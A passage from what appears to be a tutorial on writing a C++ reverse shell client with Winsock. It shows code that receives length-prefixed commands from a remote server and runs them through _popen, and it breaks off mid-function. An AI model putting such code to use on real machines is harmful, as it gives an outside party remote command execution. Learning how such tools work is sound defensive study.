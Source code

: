 This is all boiler plate code for connecting to a server with Winsock, the Winsock documentation can be found [here](https://learn.microsoft.com/en-us/windows/win32/winsock/getting-started-with-winsock).

Now we need to accept the shell command:

```cpp
// initialize variables
int msg_len = 0;
std::string msg = "";

// recv first 4 bytes for msg length
recv(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 0);
msg_len = ntohl(msg_len);

// intialize a buffer with length of the message
std::vector<char> buffer(msg_len);

int total = 0;
int recieved = 0;

// continue looping until all the bytes have been recieved
while (total < msg_len)
{
	recieved = recv(sock, buffer.data() + total, msg_len - total, 0);
	total += recieved;

}
```

The `recv` function requires a buffer for the data to be put in, so we convert the message length into a char buffer temporarily for the data to be put in using `reinterpret_cast<char*>`. The `msg_len` variable still remains an integer. 

Lets say that `msg_len` is equal to `\x00\x00\x00\x00`, the `reinterpret_cast<char*>` temporarily converts it into `["\x00", "\x00", "\x00", "\x00"]`, this is not completely accurate for demonstration purposes. 

Now that the bytes have been received we need to convert `msg_len` into the host byte order, previously we used `struct.pack("!I")`, the `!` converts the bytes into network byte order, but they need to be in host byte order for the program to accurately read them. We can do this using `ntohl()`.

Now that we have the `msg_len` we can recreate the previous messaging function, in the `recv_msg` function we loop until the final message length is equal to the expected message length.

Perfect! We have the command we want to execute, now we need to actually execute it. We can do that with this function:

```cpp
std::string run_cmd(std::string command)
{

	// Run the command
	char buffer[128];
	std::string result = "";

	// Run the command and pipe the output into pipe
	FILE* pipe = _popen(command.c_str(), "r");
	// If no pipe exists then the command failed.
	if (!pipe)
	{
		return "popen failed.";
	}

	// Loop over the pipe and add the result in increments of 128 until there is no longer any data
	while (!feof(pipe))
	{
		if (fgets(buffer, 128, pipe) != NULL)
```